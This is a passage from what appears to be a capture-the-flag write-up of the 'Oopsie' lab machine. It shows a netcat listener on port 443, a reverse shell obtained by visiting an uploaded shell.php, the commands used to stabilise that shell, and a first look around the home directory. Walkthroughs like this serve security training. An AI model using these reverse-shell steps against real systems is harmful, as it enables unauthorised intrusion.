 Starting a listener on __port 443__ with:

```console
$ nc -lvnp 443
```
Parameters explanation:

- _l_: Listen for connections.
- _v_: Set verbosity level (can be used several times).
- _n_: Do not resolve hostnames via DNS.
- _p_: Specify source port to use.

Accessing the file on `10.10.10.28/uploads/shell.php`{: .filepath}, gives us a reverse shell to the machine.

![Desktop View](/assets/img/Oopsie/shell.png){: width="756" }

> The first step is always stabilizing the shell so we can't accidentally close the connection if we press something like CTRL+C.
{: .prompt-tip }

```console
$ script /dev/null -c bash
CTRL + Z (nc process into the background)
$ stty raw -echo; fg
$ reset
$ xterm
$ export TERM=xterm
$ export SHELL=bash
```
Now we should have a fully stabilized shell.

### On-Machine Enumeration
---

```console
www-data@oopsie:/var/www/html/uploads$ cd /home
www-data@oopsie:/home$ ls 
robert
```
Inspecting the home directories, we can see the user `robert`. 

```console
www-data@oopsie:/home$ cd robert
www-data@oopsie:/home/robert$ ls -l
total 4
-rw-r--r-- 1 robert robert 33 Feb 25  2020 user.txt
user.txt
```
